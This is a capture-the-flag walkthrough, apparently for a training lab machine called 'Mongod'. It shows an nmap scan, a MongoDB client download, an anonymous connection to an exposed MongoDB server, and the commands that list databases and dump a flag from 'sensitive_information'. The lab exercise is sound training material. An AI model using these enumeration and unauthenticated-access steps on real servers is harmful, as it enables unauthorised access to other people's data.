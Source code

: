 # Mongod

# TL;DR

- Simple machine running the MongoDB server that allows anonymous user login. We are able to connect to the server using the `mongodb` utility.

# Enumeration

- `ping 10.129.166.53` : to test if the server us up and running.
- We scan the host to determine running services:
```
nmap -p- --min-rate=1000 -sV 10.129.166.53
Starting Nmap 7.93 ( https://nmap.org ) at 2024-01-01 19:36 PST
Nmap scan report for 10.129.166.53
Host is up (0.085s latency).
Not shown: 65533 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
27017/tcp open  mongodb MongoDB 3.6.8
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 81.43 seconds

```
- From the scan we find the following service running:
    - `ssh` on port`22/tcp`
    - `mongod` on port `27017/tcp` 

# Foothold

 - Since there are only two ports open we can start with the interesting one, the port running MongoDB service.
 - We can run `curl -O https://fastdl.mongodb.org/linux/mongodb-linux-x86_64-3.4.7.tgz` to download the `mongodb` utility, if it does not already exist on the local host.
 - We can extract the contents of the tar archive file using the `tar` utility: `tar xvf mongodb-linux-x86_64-3.4.7.tgz`
 - Next we need to navigate to the location where the `mongo` binary is present: `cd mongodb-linux-x86_64-3.4.7/bin`
 - We can then use the binary to connect to the MongoDB server: `./mongo mongodb://10.129.166.53:27017`
 - Once connected to the host we can run the following commands to retrieve the flag (Note: MongoDB is designed in the following way: `Database->Collection->Document`):
    - To show all the databases on the server:
        ```
        > show dbs
        admin                  0.000GB
        config                 0.000GB
        local                  0.000GB
        sensitive_information  0.000GB
        users                  0.000GB
        ```
    - To use the database we deem interesting:
        ```
        > use sensitive_information;
        switched to db sensitive_information
        ```
    - Once we are using the specified database we can list all the collections in that database:
        ```
        > show collections;
        flag
        ```
    - To print the contents of a particular document in the collection:
        ```
        > db.flag.find().pretty();
        {
                "_id" : ObjectId("630e3dbcb82540ebbd1748c5"),
                "flag" : "1b6e6fb359e7c40241b6d431427ba6ea"
        }
        ```